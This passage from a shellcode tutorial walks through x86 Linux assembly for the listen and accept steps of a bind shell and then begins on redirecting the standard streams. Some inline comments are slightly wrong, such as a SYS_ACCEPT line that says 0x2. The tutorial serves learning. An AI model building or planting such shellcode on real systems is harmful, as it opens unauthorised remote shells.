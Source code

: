 This can be achieved with the syscall "socketcall(SYS_LISTEN, sockfd)":

In assembly that looks like this:
```
; [+] socketcall() to SYS_LISTEN
        ; int socketcall(int call, unsigned long *args)
        ; int listen(int sockfd, int backlog)
        ; EAX = socketcall
        ; EBX = SYS_LISTEN[4]
        ; ECX = ADDRESS-SYS_BIND-SOCKFD
        mov    al,0x66  ; setting EAX to socketcall() syscall
        mov    bl,0x4   ; setting EBX to 0x4 (socketcall: SYS_LISTEN[4])                        :       [socketcall --> REF1]
        push   esi      ; pushing socket fd onto stack for ECX (sockfd)              :       [listen --> REF6]
        xor    ecx,ecx  ;
        mov    ecx,esp  ; setting ECX to pointer of SYS_SOCKET procedure - (sockfd) :       [listen --> REF6]
        int    0x80     ; [*] Calling: socketcall(SYS_LISTEN, (sockfd)
```


## Accepting incoming connections

Picture this: You invite your friend over to hang out, you've bought food and driks, you've spent a good deal of time planning it. When your friend finally arrives tries he enter but, oh no! The door is locked! This is alright though, because you can just unlock the door and let him in.

Although a broad and not entirely accurate analogy, this is in theory what we need to occur. When we recieve a connection, we want to accept it to get a shell.

This can be achieved with the syscall "socketcall(SYS_ACCEPT)".

In assmebly that looks like this:
```
sys_accept:
        ; [+] socketcall() to SYS_ACCEPT
        ; int socketcall(int call, unsigned long *args)
        ; int accept(int sockfd, struct sockaddr *restrict addr, socklen_t *restrict addrlen)
        ; EAX = socketcall
        ; EBX = SYS_ACCEPT[5]
        ; ECX = ADDRESS-SYS_BIND-SOCKFD
        mov    al,0x66  ; setting EAX to socketcall() syscall
        mov bl,0x5      ; setting EBX to 0x2 (socketcall: SYS_ACCEPT[5])                        :       [socketcall --> REF1]
        push esi        ; pushing socket fd onto stack for ECX (SYS_SOCKET-sockfd)
        mov ecx,esp     ; setting ECX to pointer of SYS_SOCKET procedure - (*SYS_SOCKET-SOCKFD) :       [accept --> REF7]
        int 0x80        ; [*] Calling: socketcall(SYS_ACCEPT, (*SYS_SOCKET-sockfd)
```

## Setting stdin, stdout and stderr

So with most in not all *NIX systems, you have: stdin, stdout and stderr. The way systems interperet it is as integers: 0x0, 0x1, 0x2.
These 3 determine the accepted data streams. It's imperative that our shell accepts all 3 streams, so let's go ahead and do just that!
